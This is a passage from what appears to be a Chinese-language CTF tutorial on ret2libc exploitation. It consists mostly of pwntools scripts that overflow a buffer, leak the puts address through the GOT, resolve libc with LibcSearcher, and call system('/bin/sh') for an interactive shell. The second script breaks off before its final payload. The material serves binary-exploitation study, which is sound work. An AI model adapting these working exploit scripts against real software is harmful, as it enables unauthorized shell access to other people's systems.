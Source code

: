 ```python
    r.sendlineafter('What do you think ?', payload1)
    recv_content = r.recv()
    real_puts_addr = u32(recv_content[:4])

    libc = LibcSearcher('puts', real_puts_addr)
    libc_base = real_puts_addr - libc.dump('puts')
    real_system_addr = libc_base + libc.dump('system')
    bin_sh_addr = libc_base + libc.dump('str_bin_sh')

    payload2 = flat(['a'*0x70, real_system_addr, 'b'*4, bin_sh_addr])
    r.sendline(payload2)

    r.interactive()


if __name__ == '__main__':
    main()

```

这是例1用这种方式的脚本：  
```python
# coding:utf8
# python3

'''
0000| 0xffffcfac --> 0xf7e1d647 (<__libc_start_main+247>:	add    esp,0x10)
0000| 0xffffcf20 --> 0xffffcf3c ("hello")

0x70
'''

from pwn import *
from LibcSearcher import *

exe = ELF('ret2libc1')

context.binary = exe
context.log_level = 'debug'

puts_plt = exe.plt['puts']
start_symbol = exe.sym['_start']
puts_got = exe.got['puts']


def conn():
    if args.REMOTE:
        return remote('addr', 1337)
    else:
        return process([exe.path])


def main():
    r = conn()

    payload1 = flat(['a'*0x70, puts_plt, start_symbol, puts_got])
    r.sendlineafter('RET2LIBC >_<\n', payload1)
    recv_content = r.recv()
    real_puts_addr = u32(recv_content[:4])

    libc = LibcSearcher('puts', real_puts_addr)
    libc_base = real_puts_addr - libc.dump('puts')
    real_system_addr = libc_base + libc.dump('system')
    bin_sh_addr = libc_base + libc.dump('str_bin_sh')
```